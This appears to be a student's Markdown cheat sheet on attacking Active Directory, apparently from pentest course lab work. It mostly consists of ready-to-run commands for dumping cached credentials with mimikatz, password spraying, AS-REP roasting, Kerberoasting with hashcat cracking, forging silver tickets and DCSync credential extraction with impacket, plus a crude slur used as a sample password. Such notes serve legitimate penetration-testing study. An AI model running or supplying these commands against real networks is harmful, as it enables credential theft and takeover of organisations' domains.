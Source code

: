 # AD AuthN Basic
- Domain Expansion: I'd Win <img src="905673665fe7248681682d11b5739501.png" width="50">
## AuthN Type
1. NTLM 
   <img src="efc3ae731d085f29a1673782d583e64d-ad_ntlm.png" width="400">
2. Kerberos 
   <img src="b5e6b0ecb201daef973f507049049029-ad_kerbauth.png" width="400">

## Cached AD Credential
- w/ mimikatz
- ```privilege::debug``` to engage the SeDebugPrivlege8 privilege, which will allow us to interact with a process owned by another account.
- ``` sekurlsa::logonpasswords ``` get cached password that loggin this pc
- ``` sekurlsa::tickets ``` get cached ticket 

# Attack AD
## Password attack/ Spray
- ``` net accounts ``` get account policy e.g. logout time
1. DirectoryService (low & slow)
    - Run in Windows Env.
    - Get LDAP path (reference ch21)
    - ``` New-Object System.DirectoryServices.DirectoryEntry($LDAPpath, {username}, {passowrd}) ``` test if return normal result. If yes = correct , if false = nope 
    - DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1 #NoFullAutoInTheBuilding! 🔫🔫🔫🔫🔫🔫
2. SMB (Nois & slow)
    - Run in Kali Env
    - ``` crackmapexec smb {victim ip} -u users.txt -p 'YouAreFuckingGay' -d corp.com (--continue-on-success OR --shares) ``` 
    - ``` -pass-pol ``` check password policy (before brute force)
    - If have local admin rights of that ac will show "Pwd3d!"
3. Kerberos TGT
    - Run in Windows/ Kali
    - Kerbrute: https://github.com/ropnop/kerbrute/releases/tag/v1.0.3
    - ``` .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!" ```

## AS-REP Roasting
- If without Kerberos pre-authN
- Linux (Kali way) 
1. ``` impacket-GetNPUsers -dc-ip {domain controller ip!!}  -request -outputfile as-rep-roasted.txt corp.com/pete ``` Grap the AS-REP packet
2. ``` sudo hashcat -m 18200 as-rep-roasted.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -n 20 ``` 

- Windows (victim way)
1. Rubeus: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
2. ``` .\Rubeus.exe asreproast /nowrap ```
3. hashcat 

## Kerberoast (TGS-REP)
- Target service accounts
- The service ticket is encrypted using the SPN's password hash.
- m=13100 hashcat
- Linux (kali way)
1. ``` sudo impacket-GetUserSPNs -request -dc-ip {domain controller ip} corp.com/pete ```
2. hashcat

- Windows (victim way)
1. ``` .\Rubeus.exe kerberoast /outfile:hashes.kerberoast ```
2. hashcat crack

## Silver Tickets
- Forge service tickets step
- Target forging TGS
- Requires: 
    1. SPN password hash
    2. Domain SID
    3. Target SPN
- Use ticket accesss HTTP SPN resource
- Windows (victim way)
1. Find that service admin hash in cached data w/ ```mimikatz> sekurlsa::logonpasswords ``` 
2. Domain sid ```pwsh> whoami /user ``` ``` S-1-5-21-1987370270-658905905-1781884369-1105 ``` BUT ignore last segment ``` -1105```
3. Target SPN e.g. web6969.corp.com
4. Run ```mimikatz> kerberos::golden /sid:{sid} /domain:corp.com /ptt /target:{target spn} /service:http /rc4:{hashes} /user:{user you want to impersonate} ```
5. check tickets ```pwsh> klist ```
6. try access kerberos services: ``` iwr -UseDefaultCredentials http://web04 ```

- Linux (Kali way)
1. Impersonate Administrator via Silver Ticket (w/ service account):
2. Silver/Golden ticket ``` impacket-ticketer -nthash {nthash} -domain-sid {domain-sid} -domain nagoya-industries.com -spn {spn} -user-id 500 Administrator ```
3. get env var: ``` export KRB5CCNAME=$PWD/Administrator.ccache ```
4. Create file under /etc/brb5user.conf
   ```
    [libdefaults]
            default_realm = NAGOYA-INDUSTRIES.COM
            kdc_timesync = 1
            ccache_type = 4
            forwardable = true
            proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
            fcc-mit-ticketflags = true

    [realms]        
            NAGOYA-INDUSTRIES.COM = {
                    kdc = nagoya.nagoya-industries.com
            }

    [domain_realm]
            .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
    ```

## Domain Controller Sync
- Only works in sync turned on DC (Production real world will have)
- Requires DC admin ( Replicating Directory Changes Permissions )
- NLTM module 1000
- Windows (Victim way)
  1. Login to DC admin
  2. Obtain any user credentials(hashed) ``` lsadump::dcsync /user:corp\dave ```
- Linux (Kali way)
1. ``` impacket-secretsdump -just-dc-user {target user to get} corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@{dc_ip} ```

